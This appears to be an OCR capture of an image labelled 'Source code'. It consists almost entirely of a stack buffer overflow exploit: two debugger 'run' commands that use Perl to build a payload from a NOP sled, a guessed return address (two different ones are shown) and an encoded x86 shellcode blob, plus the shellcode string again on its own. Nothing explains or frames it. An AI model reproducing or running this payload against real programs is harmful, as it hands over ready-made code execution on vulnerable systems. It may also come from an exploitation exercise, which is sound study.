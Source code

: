 run $(perl -e 'print "\x90"x60, "\x50\xce\xff\xff","\x90"x96,"\xb8\xda\x11\xd8\x57\xdb\xc1\xd9\x74\x24\xf4\x5b\x29\xc9\xb1\x12\x31\x43\x12\x03\x43\x12\x83\x31\xed\x3a\xa2\xf4\xd5\x4c\xae\xa5\xaa\xe1\x5b\x4b\xa4\xe7\x2c\x2d\x7b\x67\xdf\xe8\x33\x57\x2d\x8a\x7d\xd1\x54\xe2\x77\x21\xa5\xfd\xef\x23\xa9\x10\xac\xaa\x48\xa2\x2a\xfd\xdb\x91\x01\xfe\x52\xf4\xab\x81\x37\x9e\x5d\xad\xc4\x36\xca\x9e\x05\xa4\x63\x68\xba\x7a\x27\xe3\xdc\xca\xcc\x3e\x9e"')



"\xb8\xda\x11\xd8\x57\xdb\xc1\xd9\x74\x24\xf4\x5b\x29\xc9\xb1\x12\x31\x43\x12\x03\x43\x12\x83\x31\xed\x3a\xa2\xf4\xd5\x4c\xae\xa5\xaa\xe1\x5b\x4b\xa4\xe7\x2c\x2d\x7b\x67\xdf\xe8\x33\x57\x2d\x8a\x7d\xd1\x54\xe2\x77\x21\xa5\xfd\xef\x23\xa9\x10\xac\xaa\x48\xa2\x2a\xfd\xdb\x91\x01\xfe\x52\xf4\xab\x81\x37\x9e\x5d\xad\xc4\x36\xca\x9e\x05\xa4\x63\x68\xba\x7a\x27\xe3\xdc\xca\xcc\x3e\x9e"


run $(perl -e 'print "\x90"x60, "\xf0\xce\xff\xff","\x90"x96,"\xb8\xda\x11\xd8\x57\xdb\xc1\xd9\x74\x24\xf4\x5b\x29\xc9\xb1\x12\x31\x43\x12\x03\x43\x12\x83\x31\xed\x3a\xa2\xf4\xd5\x4c\xae\xa5\xaa\xe1\x5b\x4b\xa4\xe7\x2c\x2d\x7b\x67\xdf\xe8\x33\x57\x2d\x8a\x7d\xd1\x54\xe2\x77\x21\xa5\xfd\xef\x23\xa9\x10\xac\xaa\x48\xa2\x2a\xfd\xdb\x91\x01\xfe\x52\xf4\xab\x81\x37\x9e\x5d\xad\xc4\x36\xca\x9e\x05\xa4\x63\x68\xba\x7a\x27\xe3\xdc\xca\xcc\x3e\x9e"')
